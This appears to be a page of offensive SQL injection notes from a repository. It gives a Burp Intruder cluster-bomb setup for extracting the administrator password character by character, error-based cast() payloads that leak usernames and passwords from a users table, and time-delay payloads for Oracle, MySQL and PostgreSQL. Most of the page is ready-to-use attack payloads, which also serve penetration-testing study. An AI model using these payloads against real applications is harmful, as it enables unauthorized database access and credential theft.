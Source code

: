 For Burp Intruder use the following configurations:

- Attack Type: Cluster Bomb
- Payload Positions: 2 position markers need to be set:
    - The first one should be on the character offset position in the password
    - The second marker should be on the actually character to test
        - `where username='administrator'),$$,1)='$$')`
- Payloads:
	- First marker - Numbers From 1 to 20
	- Second marker - include alphanumeric characters (Burp Pro has the payload list that can be added.)

Then, view the results and filter by status code. The results that contain the 500 code are the correct ones. After sorting, it should be easy to manually put together the password.
# Visible Error-Based SQL Injection

These payloads can be used when the application is returning a verbose error message in it's response. Many times the application will display the results of the query within the error message in the response.

Specifically the "cast" command enables us to convert one data type to another. Attempting to convert a String data type to an Integer will cause an error:

```sql
' and 1=cast((select 1) as int)--
```

```sql
' and 1=cast((select username from users) as int)--
```

```sql
' and 1=cast((select username from users limit 1) as int)--
```

```sql
' and 1=cast((select password from users limit 1) as int)--
```
# SQLi Blind Time Delays

Make sure to encode:

- `;` -> `%3b`

Identify if any of the below payloads cause a time delay on the application's response. Portswigger has a cheat sheet that has more:

```sql
'||(select dbms_pipe.receive_message(('a'),10) from dual)||'
```

```sql
'%3b select sleep(10)--
```

```sql
'%3b select pg_sleep(10)--
```
